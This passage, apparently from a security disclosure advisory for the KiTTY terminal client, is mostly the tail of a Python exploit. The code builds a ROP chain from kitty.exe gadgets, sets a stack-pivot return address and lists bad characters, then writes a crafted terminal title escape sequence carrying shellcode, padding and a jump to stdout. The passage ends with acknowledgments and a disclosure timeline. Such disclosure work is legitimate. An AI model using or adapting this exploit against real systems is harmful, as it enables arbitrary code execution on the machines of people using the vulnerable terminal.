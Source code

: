 ```python
	0x00000040,  # 0x00000040-> edx
	#[---INFO:gadgets_to_set_ecx:---]
	0x005ac58c,  # POP ECX # RETN [kitty.exe]
	0x004d81d9,  # &Writable location [kitty.exe]
	#[---INFO:gadgets_to_set_edi:---]
	0x004fa404,  # POP EDI # RETN [kitty.exe]
	0x005a2001,  # RETN (ROP NOP) [kitty.exe]
	#[---INFO:gadgets_to_set_eax:---]
	0x004cd011,  # POP EAX # POP EBX # RETN [kitty.exe]
	0x90909090,  # nop
	0x41414141,  # Filler (compensate)
	#[---INFO:pushad:---]
	0x005dfbac,  # PUSHAD # RETN [kitty.exe]
	]
	return b''.join(struct.pack('<I', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

#----------------------------------------------------------------------------------#
# Badchars: \x00\x07\x0a\x0d\x1b\x9c\x9d                                           #
# Return Address Information: 0x00529720 : {pivot 324 / 0x144} :                   #
#   ADD ESP,134 # POP EBX # POP ESI # POP EDI # POP EBP # RETN                     #
#   ** [kitty.exe] **   |  startnull {PAGE_EXECUTE_READWRITE}                      #
# Shellcode size at ESP: 1042 bytes                                                #
#----------------------------------------------------------------------------------#

return_address = struct.pack('<I',  0x00529720) # ADD ESP,134 # POP EBX # POP ESI # POP EDI # POP EBP # RETN    ** [kitty.exe] **   |  startnull {PAGE_EXECUTE_READWRITE}

rop_chain_padding = b'\x90' * 27
nops = b'\x90' * 88

escape_sequence = b'\033]0;__dt:localhost:' + shellcode() + return_address
escape_sequence += rop_chain_padding + rop_chain
escape_sequence += b'\xE9\x3D\xFA\xFF\xFF' # jmp $eip-1471
escape_sequence += nops + b'\007'

stdout = os.fdopen(sys.stdout.fileno(), 'wb') 
stdout.write(escape_sequence)
stdout.flush()
```

## Acknowledgments: <a name="acknowledgments"></a>

Austin thanks the MITRE CVE Assignment Team for their assistance with the CVE service requests.

## Timeline: <a name="timeline"></a>

2024-01-08: This advisory contains one vulnerability and one additional advisory totaling three vulnerabilities sent to KiTTY maintainer Cyril Dupont; no reply from Cyril.
